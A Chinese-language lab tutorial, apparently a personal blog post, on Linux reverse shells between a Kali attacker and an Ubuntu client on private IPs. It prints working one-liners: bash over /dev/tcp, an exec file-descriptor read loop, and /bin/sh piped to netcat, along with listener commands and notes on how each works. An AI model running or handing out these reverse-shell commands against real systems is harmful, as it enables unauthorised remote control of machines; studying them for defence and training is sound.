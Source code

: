 ```yaml
---
title: linux反弹shell
date: 2021-10-16 19:51:39
cover: https://w.wallhaven.cc/full/z8/wallhaven-z8dg9y.png
---
```




# linux反弹shell

客户机：ubuntu

ip: 192.168.118.130

攻击机：kali  

ip:192.168.118.128

## 1.bash反弹

攻击机执行命令：

```
nc -lvp 8888
```

![](https://i.loli.net/2021/10/09/STNBcU6bdr9XwW5.png)

客户机执行命令：

```
bash -i >& /dev/tcp/192.168.118.128/8888 0>&1
```

![](https://i.loli.net/2021/10/09/Sd84UwZfyoCgt7L.png)

然后攻击机这边成功拿到shell

![](https://i.loli.net/2021/10/09/EegIW67x9sPRu8A.png)

### 原理

``` 
bash -i >& /dev/tcp/远程ip/port 0>&1
```

bash是/bin/目录下的二进制程序

/dev/tcp是Linux中的一个特殊设备，打开这个文件相当于发出了一个socket调用，建立一个socket连接。

0>&:  当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。

0>&1: 在命令后面加上0>&1,表示将标准输入重定向到标准输出，这里的标准输出已经重定向到了/dev/tcp/远程ip/port这个文件，也就是远程，那么标准输入也重定向到了远程

```
nc -lvp port
```

nc 全称为netcat，所做的就是在两台电脑之间建立链接，并返回两个数据流。

-g<网关> 设置路由器跃程通信网关，最多可设置8个。
-G<指向器数目> 设置来源路由指向器，其数值为4的倍数。
-h 在线帮助。
-i<延迟秒数> 设置时间间隔，以便传送信息及扫描通信端口。
-l 使用监听模式，管控传入的资料。
-n 直接使用IP地址，而不通过域名服务器。
-o<输出文件> 指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存。
-p<通信端口> 设置本地主机使用的通信端口。
-r 乱数指定本地与远端主机的通信端口。
-s<来源位址> 设置本地主机送出数据包的IP地址。
-u 使用UDP传输协议。
-v 显示指令执行过程。详细信息
-w<超时秒数> 设置等待连线的时间。
-z 使用0输入/输出模式，只在扫描通信端口时使用。



其他版本

攻击机：

```
nc -lvp 3434
```

```
客户机：
exec 5<>/dev/tcp/192.168.118.128/3434
cat <&5 | while read line; do $line 2>&5 >&5; done
```

![](https://raw.githubusercontent.com/todis21/todis21.github.io/master/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202021-10-13%20222957.png)

![](https://raw.githubusercontent.com/todis21/todis21.github.io/master/img/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202021-10-13%20223016.png)

##  2.nc交互式反弹

攻击机

``` 
nc -lvp 8888
nc -lvvp 8888
```

![](https://i.loli.net/2021/10/09/nM47yYBSRo2UmNX.png)

客户机;

``` 
 /bin/sh | nc 192.168.118.128 8888
```

连接后，在攻击机输入的字符回车后会在客户机呈现

![](https://i.loli.net/2021/10/09/BzpsmjTncC6oQre.png)

![](https://i.loli.net/2021/10/09/xIK14h8bEkUDs9i.png)







[参考文章1](https://xz.aliyun.com/t/2548)

[参考文章2](https://xz.aliyun.com/t/2549)
